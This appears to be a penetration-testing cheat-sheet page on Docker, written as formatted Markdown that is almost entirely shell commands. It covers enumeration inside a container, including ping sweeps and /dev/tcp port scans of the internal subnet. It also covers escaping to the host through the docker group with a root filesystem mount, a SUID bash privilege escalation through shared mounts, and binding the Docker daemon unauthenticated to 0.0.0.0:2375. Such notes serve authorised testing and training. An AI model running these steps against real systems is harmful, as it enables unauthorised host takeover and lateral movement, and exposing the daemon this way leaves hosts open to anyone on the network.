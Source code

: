 ```yaml
---
icon: docker
---
```


# Docker

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>

* <mark style="color:purple;">**Confirm the presence**</mark> <mark style="color:purple;">**of**</mark> <mark style="color:orange;">**`.dockerenv`**</mark>

{% code title="Check if running as root" overflow="wrap" %}
```sh
cat /proc/self/status
```
{% endcode %}

{% code title="Check SUID/SGID" overflow="wrap" %}
```sh
find / -type f \( -perm -4000 -o -perm -2000 \)
```
{% endcode %}

{% code title="Check processes" overflow="wrap" %}
```sh
ps aux
```
{% endcode %}

{% code title="Check the namespaces" overflow="wrap" %}
```sh
cat /proc/self/ns/
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">When the host's user information does not exist inside the container’s</mark> <mark style="color:orange;">**`/etc/passwd`**</mark> <mark style="color:purple;">file, file permissions will show numeric IDs instead of human-readable names.</mark>
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**If the**</mark>**&#x20;**<mark style="color:orange;">**`socket`**</mark>**&#x20;**<mark style="color:purple;">**is mounted you may be able to use**</mark>**&#x20;**<mark style="color:orange;">**`docker-cli`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```sh
mount | grep docker.sock
```
{% endcode %}

```sh
ls -l /var/run/docker.sock
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Understand the Network`**</mark>

<mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>

{% code title="Check the IPs" overflow="wrap" %}
```sh
ip addr
```
{% endcode %}

{% code title="Check the routing table" overflow="wrap" %}
```sh
cat /proc/net/fib_trie
```
{% endcode %}

{% code title="Always ping sweep the subnets" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Scan ports" overflow="wrap" %}
```sh
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}

{% code title="Use OpenSSL to scan ports" overflow="wrap" %}
```sh
for host in 1 2 3 4; do for port in 21 22 25 80 443 8080; do (echo "172.19.0.$host:$port" && openssl s_client -connect 172.19.0.$host:$port 2>/dev/null | grep CONNECTED) & done; done; wait
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check for Mounted File Systems`**</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
cat /proc/mounts
mount | grep <directory>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Look for vulnerabilities and misconfiguration`**</mark>

```sh
cat /etc/docker/daemon.json
```
{% endhint %}

{% hint style="info" %}
{% code title="Loop to mount containers " overflow="wrap" %}
```sh
mkdir sda{1,2,3,4,5}
for number in 1 2 3 4 5; do mount /dev/sda$number sda$number; done
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>docker-cli</code></strong></mark></summary>

{% hint style="info" %}
{% code title="List running containers" overflow="wrap" %}
```sh
docker ps
```
{% endcode %}

* <mark style="color:purple;">Check for containers running with elevated privileges (</mark><mark style="color:orange;">**`--privileged`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`--cap-add`**</mark><mark style="color:purple;">).</mark>
* <mark style="color:purple;">Look for containers that share host namespaces or file systems.</mark>
{% endhint %}

{% code title="Check for docker images" overflow="wrap" %}
```sh
docker images
```
{% endcode %}

{% hint style="info" %}
<mark style="color:purple;">Look for containers running as root or with</mark> <mark style="color:orange;">**`--privileged`**</mark> <mark style="color:purple;">mode:</mark>

```sh
docker inspect
```
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Escape the container</code></strong></mark></summary>

<mark style="color:purple;">Tools like</mark> <mark style="color:orange;">**`nsenter`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`docker-exploit`**</mark> <mark style="color:purple;">can be used to attempt escaping the container.</mark>

{% hint style="info" %}
<mark style="color:purple;">If the user is in the</mark> <mark style="color:orange;">**`docker`**</mark> <mark style="color:purple;">group, attempt to run the following command to mount the host filesystem and gain access to the host:</mark>

{% code overflow="wrap" %}
```sh
docker run -v /:/mnt -it bash bash
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`File Ownership Manipulation via Shared Mounts`**</mark>

* <mark style="color:purple;">Check permissions and ownership when you create a file from host and container:</mark>

{% code lineNumbers="true" %}
```sh
touch from_host
touch from_container
```
{% endcode %}

* <mark style="color:purple;">If the container is miss configured and can creates files as a</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">, and you can access the files created by the host on the container:</mark>&#x20;
  1. <mark style="color:orange;">**`From the host`**</mark><mark style="color:purple;">, copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">in to the mounted directory.</mark>
  2. <mark style="color:orange;">**`From the container`**</mark><mark style="color:purple;">, change the ownership and permissions of</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>
  3. <mark style="color:purple;">Execute</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">as</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">.</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/bash .
chown root:root bash; chmod 4777 bash
./bash -p
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Configure</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>Docker</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>to listen on a</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>TCP</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>port</strong></mark></summary>

1. <mark style="color:purple;">Open the Docker service file, typically at</mark> <mark style="color:red;">**`/lib/systemd/system/docker.service`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`/etc/systemd/system/docker.service`**</mark><mark style="color:purple;">.</mark>
2. <mark style="color:purple;">Change</mark> <mark style="color:orange;">**`ExecStart`**</mark> <mark style="color:purple;">to bind a</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">address:</mark>

```
ExecStart=/usr/bin/dockerd --host=tcp://0.0.0.0:2375
```

3. <mark style="color:purple;">Reload the daemon and restart</mark> <mark style="color:orange;">**`Docker`**</mark> <mark style="color:purple;">if needed:</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
systemctl daemon-reload
systemctl restart docker
```
{% endcode %}

4. <mark style="color:purple;">Connect to it using</mark> <mark style="color:orange;">**`docker-cli`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
export DOCKER_HOST=tcp://<host_ip>:2375
docker ps
```
{% endcode %}

</details>
